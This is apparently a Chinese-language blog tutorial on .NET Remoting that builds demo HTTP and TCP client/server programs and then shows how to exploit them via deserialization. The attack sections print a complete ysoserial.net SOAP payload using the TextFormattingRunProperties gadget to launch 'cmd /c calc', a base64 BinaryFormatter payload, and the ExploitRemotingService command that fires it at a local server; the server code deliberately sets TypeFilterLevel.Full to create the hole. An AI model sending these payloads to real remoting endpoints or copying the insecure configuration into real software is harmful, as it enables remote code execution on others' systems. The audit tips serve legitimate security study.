







# 简介

.net remoting是一种在不同进程间传递对象的方式。假如两个不同的进程分别为服务端、客户端，客户端和服务端各自保存相同的一份对象（DLL），那么可以通过.net remoting技术来远程传递对象。拿java来讲更类似于rmi的概念。

.net remoting可以使用tcp、http、ipc协议来传输远程对象。本文依赖于[VulnerableDotNetHTTPRemoting](https://github.com/nccgroup/VulnerableDotNetHTTPRemoting)项目。

# 三种协议的不同

三种协议都位于程序集System.Runtime.Remoting.dll，命名空间分别为System.Runtime.Remoting.Channels.Http、System.Runtime.Remoting.Channels.Tcp、System.Runtime.Remoting.Channels.Ipc



其中不同协议用处不同：

1. IpcChannel用于本机之间进程传输，使用ipc协议传输比HTTP、TCP速度要快的多，但是只能在本机传输，不能跨机器，本文不讲。
2. TcpChannel基于tcp传输，将对象进行二进制序列化之后传输二进制数据流，比http传输效率更高。
3. HttpChannel基于http传输，将对象进行soap序列化之后在网络中传输xml，兼容性更强。

# .net remoting demo

先来以HttpChannel为例看一个demo了解.net remoting。需要三个项目，分别是

1. RemoteDemoClient
2. RemoteDemoServer
3. RemoteDemoObject

分别表示**客户端**、**服务端**和**要传输的对象**。

## 传输对象类

RemoteDemoObject.RemoteDemoObjectClass需要继承MarshalByRefObject类才能跨域（AppDomain）远程传输。

```csharp
using System;

namespace RemoteDemoObject
{
    public class RemoteDemoObjectClass : MarshalByRefObject
    {
        public int count = 0;

        public int GetCount()
        {
            Console.WriteLine("GetCount called.");
            return count++;
        }
    }
}
```

## 服务端

服务端注册HttpServerChannel并绑定在9999端口，然后`RemotingConfiguration.RegisterWellKnownServiceType`发布uri地址为RemoteDemoObjectClass.rem的远程调用对象，类型是RemoteDemoObjectClass。

```csharp
using System;
using System.Runtime.Remoting;
using System.Runtime.Remoting.Channels;
using System.Runtime.Remoting.Channels.Http;
using RemoteDemoObject;

namespace RemoteDemoServer
{
    class Program
    {
        static void Main(string[] args)
        {
            HttpServerChannel httpServerChannel = new HttpServerChannel(9999);
            ChannelServices.RegisterChannel(httpServerChannel, false);
            RemotingConfiguration.RegisterWellKnownServiceType(typeof(RemoteDemoObjectClass), "RemoteDemoObjectClass.rem", WellKnownObjectMode.Singleton);

            Console.WriteLine("server has been start");
            Console.ReadKey();
        }
    }
}
```

其中WellKnownObjectMode.Singleton是一个枚举，含义如下。漏洞与这两个枚举无关。


## 客户端

```csharp
using RemoteDemoObject;
using System;

namespace RemoteDemoClient
{
    class Program
    {
        static void Main(string[] args)
        {
            string serverAddress = "http://localhost:9999/RemoteDemoObjectClass.rem";
            RemoteDemoObjectClass obj1 = (RemoteDemoObjectClass)Activator.GetObject(typeof(RemoteDemoObjectClass), serverAddress);

            Console.WriteLine("call GetCount() get return value:{0}",obj1.GetCount());
            Console.ReadKey();
        }
    }
}
```

客户端通过Activator.GetObject拿到远程对象并返回一个实例。

## 运行效果

```
PS C:\RemoteDemoClient\bin\Debug> .\RemoteDemoClient.exe
call GetCount() get return value:0
PS C:\RemoteDemoServer\bin\Debug> .\RemoteDemoServer.exe
server has been start
GetCount called.
```

运行三次Client就返回count为三，并且输出三次`GetCount called.`，Server中的count会自增。

# HttpServerChannel数据包

这边可以通过burp的透明代理功能将client的请求包代理出来。首先修改监听器启用透明代理。



然后修改client的代码将9999端口改为8080

```csharp
using RemoteDemoObject;
using System;

namespace RemoteDemoClient
{
    class Program
    {
        static void Main(string[] args)
        {
            string serverAddress = "http://localhost:8080/RemoteDemoObjectClass.rem";
            RemoteDemoObjectClass obj1 = (RemoteDemoObjectClass)Activator.GetObject(typeof(RemoteDemoObjectClass), serverAddress);

            Console.WriteLine("call GetCount() get return value:{0}",obj1.GetCount());
            Console.ReadKey();
        }
    }
}
```

再次运行client，抓到请求包



在上图中可见HttpServerChannel采用soap协议传输对象。深究其实现


构造函数中进入`this.SetupChannel()`



然后判断自身_sinkProvider是否为空，如果为空则CreateDefaultServerProviderChain()


这里使用了一个Provider链，从SdlChannelSinkProvider->SoapServerFormatterSinkProvider->BinaryServerFormatterSinkProvider



而TcpServerChannel中，使用的是BinaryServerFormatterSinkProvider->SoapServerFormatterSinkProvider


由此可见http使用soap协议进行序列化，tcp使用binary进行序列化。

# 漏洞产生

在上文中我们提到SoapServerFormatterSinkProvider和BinaryServerFormatterSinkProvider，这两个类都有一个重要的属性**TypeFilterLevel**，[根据文档](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.formatters.typefilterlevel?view=net-5.0)可知其是枚举类型。


当其为Full时会反序列化所有类型，low时反序列化基础远程处理功能相关联的类型。而为Full时，会造成漏洞。

# 攻击HttpServerChannel

修改服务端代码

```csharp
using System;
using System.Collections;
using System.Runtime.Remoting;
using System.Runtime.Remoting.Channels;
using System.Runtime.Remoting.Channels.Http;
using System.Runtime.Serialization.Formatters;
using RemoteDemoObject;

namespace RemoteDemoServer
{
    class Program
    {
        static void Main(string[] args)
        {
            SoapServerFormatterSinkProvider soapServerFormatterSinkProvider = new SoapServerFormatterSinkProvider()
            {
                TypeFilterLevel = TypeFilterLevel.Full
            };

            IDictionary hashtables = new Hashtable();
            hashtables["port"] = 9999;

            HttpServerChannel httpServerChannel = new HttpServerChannel(hashtables,soapServerFormatterSinkProvider);
            ChannelServices.RegisterChannel(httpServerChannel, false);
            RemotingConfiguration.RegisterWellKnownServiceType(typeof(RemoteDemoObjectClass), "RemoteDemoObjectClass.rem", WellKnownObjectMode.Singleton);

            Console.WriteLine("server has been start");
            Console.ReadKey();
        }
    }
}
```

在HttpServerChannel中采用两个参数的重载，传入SoapServerFormatterSinkProvider，赋值`TypeFilterLevel = TypeFilterLevel.Full`。此时将soap请求修改为**TextFormattingRunProperties**的payload。

```xml
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f soapformatter -g TextFormattingRunProperties -c calc
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;?xml version=&#34;1.0&#34; encoding=&#34;utf-16&#34;?&#62;
&#60;ObjectDataProvider MethodName=&#34;Start&#34; IsInitialLoadEnabled=&#34;False&#34; xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34; xmlns:sd=&#34;clr-namespace:System.Diagnostics;assembly=System&#34; xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;&#62;
  &#60;ObjectDataProvider.ObjectInstance&#62;
    &#60;sd:Process&#62;
      &#60;sd:Process.StartInfo&#62;
        &#60;sd:ProcessStartInfo Arguments=&#34;/c calc&#34; StandardErrorEncoding=&#34;{x:Null}&#34; StandardOutputEncoding=&#34;{x:Null}&#34; UserName=&#34;&#34; Password=&#34;{x:Null}&#34; Domain=&#34;&#34; LoadUserProfile=&#34;False&#34; FileName=&#34;cmd&#34; /&#62;
      &#60;/sd:Process.StartInfo&#62;
    &#60;/sd:Process&#62;
  &#60;/ObjectDataProvider.ObjectInstance&#62;
&#60;/ObjectDataProvider&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

**删除`SOAP-ENV:Body`标签之后**复制到burp中发包，弹出计算器。



# TcpServerChannel数据包

远程调用对象代码

```csharp
using System;

namespace RemoteDemoObject
{
    public class RemoteDemoObjectClass : MarshalByRefObject
    {
        public int count = 0;

        public string GetCount()
        {
            Console.WriteLine("GetCount called.");
            return $"hello,{count++}";
        }
    }
}
```

客户端

```csharp
using RemoteDemoObject;
using System;

namespace RemoteDemoClient
{
    class Program
    {
        static void Main(string[] args)
        {
            string serverAddress = "tcp://localhost:9999/RemoteDemoObjectClass.rem";
            RemoteDemoObjectClass obj1 = (RemoteDemoObjectClass)Activator.GetObject(typeof(RemoteDemoObjectClass), serverAddress);

            Console.WriteLine("get string:\t{0}",obj1.GetCount());
            Console.ReadKey();
        }
    }
}
```

服务端

```csharp
using System;
using System.Collections;
using System.Runtime.Remoting;
using System.Runtime.Remoting.Channels;
using System.Runtime.Remoting.Channels.Tcp;
using System.Runtime.Serialization.Formatters;
using RemoteDemoObject;

namespace RemoteDemoServer
{
    class Program
    {
        static void Main(string[] args)
        {
            BinaryServerFormatterSinkProvider binary = new BinaryServerFormatterSinkProvider()
            {
                TypeFilterLevel = TypeFilterLevel.Full
            };

            IDictionary hashtables = new Hashtable();
            hashtables["port"] = 9999;

            TcpServerChannel httpServerChannel = new TcpServerChannel(hashtables,binary);
            ChannelServices.RegisterChannel(httpServerChannel, false);
            RemotingConfiguration.RegisterWellKnownServiceType(typeof(RemoteDemoObjectClass), "RemoteDemoObjectClass.rem", WellKnownObjectMode.Singleton);

            Console.WriteLine("server has been start");
            Console.ReadKey();
        }
    }
}
```

wireshark抓包之后，追踪tcp数据流



发现数据流以`2e 4e 45 54` `.NET`开头进行二进制传输远程调用方法、类型和命名空间。我们可以伪造tcp数据流来发送恶意二进制数据流进行反序列化RCE。

# 攻击TcpServerChannel

Github上有一个现成的工具[ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService)，通过它的raw参数我们可以发送原始binary数据。先使用ysoserial.net生成base64的payload。

```
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f binaryformatter -g TextFormattingRunProperties -c calc -o base64
AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAswU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIGNhbGMiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M+DQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI+Cw==
```

然后使用ExploitRemotingService发包

```
PS C:\Users\ddd\Downloads\ExploitRemotingService-master\ExploitRemotingService\bin\Debug> .\ExploitRemotingService tcp://localhost:9999/RemoteDemoObjectClass.rem raw AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAswU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIGNhbGMiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M+DQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI+Cw==
```

效果如图


该工具还有其他很多用法，值得学习。

# 发现.net remoting应用

因为协议的特征，nmap可以扫出来


实际渗透过程中碰到rem后缀的也要重点关注。

# 审计

关注TcpChannel、HttpChannel及其子类所创建实例的TypeFilterLevel字段是否为Full。其实为Low的时候ExploitRemotingService也可以利用，但是要设置`ConfigurationManager.AppSettings.Set("microsoft:Remoting:AllowTransparentProxyMessage", false;`这个全局非默认配置，少见，仅作了解。

关注rem后缀的uri，可能就是.net remoting。

# 后文

本文简单介绍了.net remoting的基础及利用。ExploitRemotingService是一个值得学习的项目，其中使用到类似于java的动态注册RMI实例实现执行自定义代码的操作，受益颇多。

# 参考

1. https://www.codeproject.com/Articles/14791/NET-Remoting-with-an-Easy-Example
2. https://research.nccgroup.com/2019/03/19/finding-and-exploiting-net-remoting-over-http-using-deserialisation/
3. https://github.com/tyranid/ExploitRemotingService